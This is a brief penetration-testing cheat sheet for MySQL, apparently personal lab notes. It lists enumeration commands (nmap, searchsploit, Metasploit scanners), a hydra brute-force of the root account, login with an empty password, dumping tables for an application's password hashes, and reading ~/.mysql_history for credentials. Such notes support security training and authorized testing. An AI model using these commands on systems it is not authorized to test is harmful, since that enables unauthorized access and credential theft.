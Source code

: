# MySQL

## Info Gathering and Enumeration
```
nmap -Pn -sV -sC -p3306 <ip>
```
```
searchsploit MySQL <version>
```
```
use auxiliary/scanner/mysql/mysql_version
```
```
use auxiliary/scanner/mysql/mysql_login
set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
set VERBOSE false
```
- Leave `USERNAME` as `root` (high-priority).
- `root` password could be `NULL` i.e. no password required.

```
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
```
- `hydra` does not appear to find `NULL` passwords.

```
[ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
```
- Brute-forcing MySQL will likely result in your IP being blocked - avoid brute-forcing!

### mysql
```
mysql -u root -p -h <ip>
```
- Press enter for password if `NULL`.

```
MySQL [(none)]> show databases;
MySQL [(none)]> use <database>;
MySQL [(none)]> select * from <table>;
MySQL [(none)]> 
```
- If MySQL is supporting a Web app, hashed credentials for that app can be retrieved.

## Exploitation

## Post-Exploitation
```
cat ~/.mysql_history
```
- `mysql` client logs may contain MySQL credentials and other useful information.

## Others
